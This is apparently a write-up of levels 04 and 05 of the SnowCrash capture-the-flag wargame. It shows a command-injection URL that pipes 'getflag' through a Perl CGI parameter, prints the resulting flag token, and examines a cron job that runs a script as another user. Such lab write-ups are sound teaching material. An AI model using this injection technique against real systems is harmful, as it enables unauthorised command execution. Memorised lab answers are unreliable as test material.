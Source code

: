 
## Level 04

We can see level04 a level04.pl file in our home directory.

```bash
level04@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl
```

When we look at level04.pl file, we see that we have a webserver running in localhost:4747 address. We can confirm that the server is running by using the following command:

```bash
level04@SnowCrash:~$ netstat -tunl
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:4242            0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN
tcp6       0      0 :::4646                 :::*                    LISTEN
tcp6       0      0 :::4747                 :::*                    LISTEN
tcp6       0      0 :::80                   :::*                    LISTEN
tcp6       0      0 :::4242                 :::*                    LISTEN
udp        0      0 0.0.0.0:68              0.0.0.0:*
```
This perl file echo the content provided in the x param.

As the website run command, we can write http://192.168.56.101:4747/?x=|getflag in the URL to get the flag. The pipe is added to execute the getflag command.

Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
## Level 05

When we are logged with the level05 user we can see the following message
```bash
level05@192.168.56.101's password:
You have new mail.
```

This mean there are file in our mail folder.

```bash
level05@SnowCrash:~$ ls -l $MAIL
-rw-r--r--+ 1 root mail 58 Jul 15 22:03 /var/mail/level05
```
```bash
level05@SnowCrash:~$ cat $MAIL
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

When we look at the level05 file we see a cron task executed all 2 minute. It run the openarenaserver file with the flag05 permission. After looking on internet we see that openarenaserver is a game taking configuration file

The following error message is showed when
```bash
level05@SnowCrash:~$ bash /usr/sbin/openarenaserver
bash: /opt/openarenaserver/*: No such file or directory
```
